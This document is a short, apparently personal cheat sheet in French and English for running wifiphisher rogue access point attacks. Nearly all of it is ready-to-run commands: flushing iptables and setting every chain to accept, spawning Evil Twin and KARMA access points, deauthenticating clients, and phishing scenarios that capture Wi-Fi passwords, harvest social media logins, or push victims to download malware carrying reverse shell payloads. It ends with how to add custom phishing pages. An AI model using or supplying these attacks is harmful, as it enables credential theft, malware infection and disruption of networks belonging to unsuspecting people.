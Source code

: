 ### wifiphisher
apt install wifiphisher || https://github.com/wifiphisher/wifiphisher

Purger iptables avant lancement:
sudo iptables -X
sudo iptables -F
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT

sudo wifiphisher # choisir ensuite l'attaque firmware ça marche au top ;)

# rogue AP avec 1 interface:
$ sudo wifiphisher -aI wlan0 -nE -p firmware-upgrade

#personnaliser l'attaque:
$ sudo wifiphisher -aI wlan0 -nE -p firmware-upgrade -pPD .


Run the tool by typing wifiphisher or python bin/wifiphisher (from inside the tool's directory).
By running the tool without any options, it will find the right  interfaces and interactively ask the user to pick the ESSID of the  target network (out of a list with all the ESSIDs in the around area) as  well as a phishing scenario to perform. By default, the tool will  perform both Evil Twin and KARMA attacks.

wifiphisher -aI wlan0 -jI wlan4 -p firmware-upgrade --handshake-capture handshake.pcap
Use wlan0 for spawning the rogue Access Point and wlan4 for DoS  attacks. Select the target network manually from the list and perform  the "Firmware Upgrade" scenario. Verify that the captured Pre-Shared Key  is correct by checking it against the handshake in the handshake.pcap  file.
Useful for manually selecting the wireless adapters. The "Firmware Upgrade" scenario is an easy way for obtaining the PSK from a password-protected network.

wifiphisher --essid CONFERENCE_WIFI -p plugin_update -pK s3cr3tp4ssw0rd
Automatically pick the right interfaces. Target the Wi-Fi with ESSID  "CONFERENCE_WIFI" and perform the "Plugin Update" scenario. The Evil  Twin will be password-protected with PSK "s3cr3tp4ssw0rd".
Useful against networks with disclosed PSKs (e.g. in conferences). The "Plugin Update"  scenario provides an easy way for getting the victims to download  malicious executables (e.g. malwares containing a reverse shell  payload).

wifiphisher --essid "FREE WI-FI" -p oauth-login -kB
Simply spawn an open Wi-Fi network with ESSID "FREE WI-FI" and  perform the "OAuth Login" scenario. Furthermore, mount the "Known  Beacons" Wi-Fi automatic association technique.
Useful against victims in public areas. The "OAuth Login" scenario provides a simple way for capturing credentials from social networks, like Facebook.
Following are all the options along with their descriptions (also available with wifiphisher -h):


création de page:
copier les pages sous:
/usr/lib/python2.7/dist-packages/wifiphisher/data/phishing-pages/
copier un dossier: reprendre les page et le fichier “config.ini”
appeller par le nom (dans le config.ini) avec l'option "-p"


